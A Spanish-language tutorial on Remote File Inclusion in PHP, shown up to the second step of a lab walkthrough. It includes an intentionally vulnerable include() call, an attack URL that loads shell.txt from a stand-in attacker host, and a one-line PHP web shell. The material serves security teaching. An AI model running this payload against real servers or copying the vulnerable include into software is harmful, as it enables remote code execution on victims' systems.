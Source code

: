 # Remote File Inclusion (RFI)

## ¿Qué es la RFI?

La **Remote File Inclusion (RFI)** es una vulnerabilidad web que permite a un atacante **incluir archivos ubicados en servidores remotos** dentro de una aplicación vulnerable. Esto puede conducir a la **ejecución remota de código malicioso**, comprometiendo así el servidor.

>  Se produce cuando la aplicación **no valida correctamente** las entradas del usuario utilizadas para cargar archivos.

---

## ¿Cómo funciona?

Un atacante puede modificar una URL o parámetro para **incluir un archivo externo**. Si el servidor procesa este archivo, se ejecutará el código que contiene.

```php
<?php
  // Código vulnerable
  include($_GET['page']);
?>
```

Si accedemos a la URL:

```
http://victima.com/index.php?page=http://malicioso.com/shell.txt
```

Y el archivo `shell.txt` contiene código PHP malicioso, este será **ejecutado en el servidor víctima**.

---

## Ejemplo práctico (laboratorio)

### Escenario:
- Una web vulnerable permite cargar archivos con un parámetro `page`.
- El atacante crea un archivo malicioso (`shell.txt`) con una Web Shell PHP.
- El atacante sube el archivo a su servidor controlado (por ejemplo, http://evil.com/shell.txt).

### Paso a paso:

1. **Crear el archivo malicioso:**
   ```php
   <?php system($_GET['cmd']); ?>
   ```

2. **Subirlo a tu servidor (por ejemplo, usando Python):**
   ```bash
   python3 -m http.server 80
   ```
